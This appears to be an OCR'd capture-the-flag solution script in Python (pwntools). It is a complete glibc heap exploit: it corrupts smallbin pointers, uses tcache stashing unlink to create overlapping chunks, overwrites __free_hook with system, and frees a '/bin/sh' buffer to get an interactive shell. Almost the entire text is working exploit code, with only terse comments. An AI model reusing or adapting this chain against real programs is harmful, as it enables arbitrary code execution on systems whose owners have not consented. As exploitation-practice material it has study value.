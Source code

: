 ```py
add(b"\x00", b"A")
add(b"\x04", b"B")
delete(0)
delete(9)
delete(4)
add(b"\x80", p(libc.sym['__free_hook'])*64)
delete(1) # trigger smallbin corruption overwrite fd & bk
fd=hb+0x1790


add(b"\x09", (p(fd)   +      p(hb+0x2d0)  + b"a"*0x10 ) + (p(0x0) + p(0x31))*30) # 0x19d0
add(b"\x09", (p(hb+0x2d0)  + p(hb+0x19d0) + b"b"*0x10 ) + (p(0x0) + p(0x31))*30) # 0x2b10
add(b"\x09", (p(hb+0x19d0) + p(hb+0x2b10) + b"c"*0x10 ) + p(0x0)*56 + p(0) + p(0x211) + p(libc.address+0x1ebde0)*2 ) # 0x2d50
add(b"\x09", (p(hb+0x2f90) + p(hb+0x2f40) + b"d"*0x10 ) + (p(0x0) + p(0x31))*30) # 0x2f90
add(b"\x09", (p(hb+0x2d50) + p(hb+0x2f90) + p(hb+0x2f90) + p(hb+0x2f90) + b"e"*0x10 ) + (p(0x0) + p(0x31))*29) # 0x2c0
add(b"\x09", (p(hb+0x2b10) + p(hb+0x1790) + b"f"*0x10  ) ) # 0x1790

# use tcache stashing unlink + to create overlapping chunks

add(b"\x08", b"d"*8)
add(b"\x00", b"A"*8 )
add(b"\x00", p(0)*3 + p(0x31) + p(0)*5 + p(0x211) + p(libc.sym['__free_hook']) + p(0) ) # overwrite fd of tcache to __free_hook
add(b"\x02", b"/bin/sh\x00"*8)
add(b"\x00", p(libc.sym['system'])) # overwrite __free_hook
delete(2)

io.interactive()
```


